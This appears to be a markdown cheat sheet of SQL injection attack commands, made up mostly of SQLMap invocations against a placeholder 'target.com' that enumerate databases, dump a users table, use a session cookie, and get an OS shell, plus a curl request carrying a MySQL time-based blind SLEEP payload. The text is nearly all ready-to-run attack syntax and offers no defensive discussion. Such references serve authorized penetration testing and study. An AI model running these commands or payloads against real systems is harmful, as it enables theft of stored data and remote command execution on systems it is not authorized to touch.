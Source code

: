 ## SQLMap

### Basic Scan
Scan a URL for SQL injection vulnerabilities and list databases.
```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs --batch
```

### Scan with Cookie Authentication
Scan a URL using cookie-based authentication.
```bash
sqlmap -u "http://target.com/page.php?id=1" --cookie="PHPSESSID=j1nanfdo444jbah2gg3urv2u90" --dbs --batch
```

### Dump Specific Database
List tables from a specific database.
```bash
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables --batch
```

### Dump Specific Table
Dump data from a specific table.
```bash
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users --dump --batch
```

### Test POST Parameters
Test POST parameters for SQL injection.
```bash
sqlmap -u "http://target.com/login.php" --data="username=admin&password=admin" --dbs --batch
```

### Use Specific Technique
Force SQLMap to use a specific injection technique (e.g., Time-based blind).
```bash
sqlmap -u "http://target.com/page.php?id=1" --technique=T --dbs --batch
```

### OS Shell
Attempt to get an OS shell via SQL injection.
```bash
sqlmap -u "http://target.com/page.php?id=1" --os-shell --batch
```

## Manual SQL Injection Tests (MySQL)

### Time-Based Blind
Test for time-based blind SQL injection.
```bash
curl -s "http://target.com/page.php?id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))a) -- -"
```
